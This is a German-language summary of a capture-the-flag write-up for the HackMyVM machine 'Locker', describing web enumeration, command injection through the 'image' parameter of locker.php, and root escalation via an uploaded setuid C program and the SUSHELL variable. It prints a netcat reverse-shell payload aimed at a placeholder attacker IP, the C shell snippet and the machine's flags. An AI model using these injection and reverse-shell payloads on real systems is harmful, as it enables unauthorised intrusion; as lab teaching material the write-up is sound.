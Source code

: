 # Locker - HackMyVM (Easy)

![Locker.png](Locker.png)

## Übersicht

*   **VM:** Locker
*   **Plattform:** HackMyVM (https://hackmyvm.eu/machines/machine.php?vm=Locker)
*   **Schwierigkeit:** Easy
*   **Autor der VM:** DarkSpirit
*   **Datum des Writeups:** 6. November 2022
*   **Original-Writeup:** https://alientec1908.github.io/Locker_HackMyVM_Easy/
*   **Autor:** Ben C.

## Kurzbeschreibung

Das Ziel dieser Challenge war es, Root-Rechte auf der Maschine "Locker" zu erlangen. Der initiale Zugriff erfolgte durch Ausnutzung einer Command Injection-Schwachstelle in einem PHP-Skript (`locker.php`) auf dem Webserver. Durch Manipulation eines GET-Parameters (`image`) konnte ein Netcat-Reverse-Shell-Payload ausgeführt werden, was zu einer Shell als Benutzer `www-data` führte. Die finale Rechteausweitung zu Root gelang durch das Hochladen eines kompilierten C-Programms, das `setuid(0)` und `setgid(0)` aufruft, und anschließender Ausnutzung einer unsicheren Handhabung der Umgebungsvariable `SUSHELL` (wahrscheinlich durch die `su`-Binary), um dieses Programm mit Root-Rechten auszuführen.

## Disclaimer / Wichtiger Hinweis

Die in diesem Writeup beschriebenen Techniken und Werkzeuge dienen ausschließlich zu Bildungszwecken im Rahmen von legalen Capture-The-Flag (CTF)-Wettbewerben und Penetrationstests auf Systemen, für die eine ausdrückliche Genehmigung vorliegt. Die Anwendung dieser Methoden auf Systeme ohne Erlaubnis ist illegal. Der Autor übernimmt keine Verantwortung für missbräuchliche Verwendung der hier geteilten Informationen. Handeln Sie stets ethisch und verantwortungsbewusst.

## Verwendete Tools

*   `arp-scan`
*   `nmap`
*   `nikto`
*   `gobuster`
*   `wfuzz`
*   `curl`
*   `nc` (netcat)
*   `find`
*   `vi`
*   `gcc`
*   `wget`
*   `python3 http.server`
*   `export`
*   Standard Linux-Befehle (`ls`, `cat`, `id`, `cd`, `chmod`, etc.)

## Lösungsweg (Zusammenfassung)

Der Angriff auf die Maschine "Locker" gliederte sich in folgende Phasen:

1.  **Reconnaissance & Web Enumeration:**
    *   IP-Adresse des Ziels (192.168.2.112) mit `arp-scan` identifiziert.
    *   `nmap`-Scan offenbarte nur Port 80 (HTTP, Nginx 1.14.2) als offen.
    *   `nikto` meldete fehlende Sicherheitsheader, fand aber keine kritischen Schwachstellen.
    *   `gobuster` fand `index.html`, einige `.jpg`-Dateien und die Datei `locker.php`.
    *   Der Quellcode von `index.html` zeigte einen Link zur `locker.php` mit einem GET-Parameter `image`.
    *   `wfuzz` auf den `image`-Parameter von `locker.php` bestätigte, dass die Werte `1`, `2`, `3` gültig waren.

2.  **Initial Access (RCE via Command Injection als `www-data`):**
    *   Tests mit dem `image`-Parameter von `locker.php` (z.B. `locker.php?image=;`) deuteten auf eine Command Injection-Schwachstelle hin, da der Server verzögert antwortete.
    *   Ein Netcat-Listener wurde auf dem Angreifer-System gestartet (Port 5656).
    *   Ein Netcat-Reverse-Shell-Payload (z.B. `image=;nc -e /bin/bash ANGRIFFS_IP 5656`) wurde über den `image`-Parameter an `locker.php` gesendet.
    *   Eine Reverse Shell als Benutzer `www-data` wurde erfolgreich empfangen.

3.  **Privilege Escalation (von `www-data` zu `root`):**
    *   Als `www-data` wurde die Suche nach SUID-Binaries durchgeführt, die jedoch keine einfachen direkten Eskalationspfade ergab (`sudo` fehlte).
    *   Ein C-Programm (`shell.c`) wurde auf dem Angreifer-System erstellt, das `setgid(0); setuid(0); system("/bin/bash");` aufruft.
    *   Das C-Programm wurde mit `gcc shell.c -o shell` kompiliert.
    *   Die kompilierte `shell`-Datei (umbenannt zu `shellz`) wurde über einen Python-HTTP-Server bereitgestellt und mittels `wget` in das `/tmp`-Verzeichnis des Zielsystems (als `www-data`) heruntergeladen.
    *   Die heruntergeladene Datei `/tmp/shellz` wurde ausführbar gemacht (`chmod +x /tmp/shellz`).
    *   Die Umgebungsvariable `SUSHELL` wurde auf den Pfad der hochgeladenen Shell gesetzt: `export SUSHELL=/tmp/shellz`.
    *   Durch einen (im Log nicht explizit gezeigten, aber implizierten) Aufruf, der diese Umgebungsvariable auswertet (wahrscheinlich `su`), wurde die Datei `/tmp/shellz` mit Root-Rechten ausgeführt.
    *   Die erhaltene Shell hatte Root-Rechte (`uid=0(root)`).
    *   Die User-Flag (`c7d0a8de1e03b25a6f7ed2d91b94dad6`) und Root-Flag (`7140a59e697f44b8a8581cc85df76f4c`) wurden gefunden.

## Wichtige Schwachstellen und Konzepte

*   **Command Injection:** Eine Schwachstelle in `locker.php` erlaubte die Ausführung beliebiger Betriebssystembefehle durch Manipulation des GET-Parameters `image`.
*   **Unsichere Handhabung von Umgebungsvariablen (SUID/SU):** Die Privilegieneskalation nutzte wahrscheinlich aus, dass die `su`-Binary (oder eine ähnliche SUID-Binary) die Umgebungsvariable `SUSHELL` auswertet und die darin angegebene Shell mit erhöhten Rechten startet.
*   **Hochladen und Ausführen von kompiliertem Code:** Ein maßgeschneidertes C-Programm wurde kompiliert, hochgeladen und zur Eskalation verwendet.

## Flags

*   **User Flag (vermutlich `/home/tolocker/user.txt` oder ähnlich, Pfad nicht explizit gezeigt):** `c7d0a8de1e03b25a6f7ed2d91b94dad6`
*   **Root Flag (`/root/root.txt`):** `7140a59e697f44b8a8581cc85df76f4c`

## Tags

`HackMyVM`, `Locker`, `Easy`, `Command Injection`, `Web RCE`, `SUID Exploit`, `Environment Variable Hijacking`, `SUSHELL`, `Nginx`, `Linux`, `Privilege Escalation`

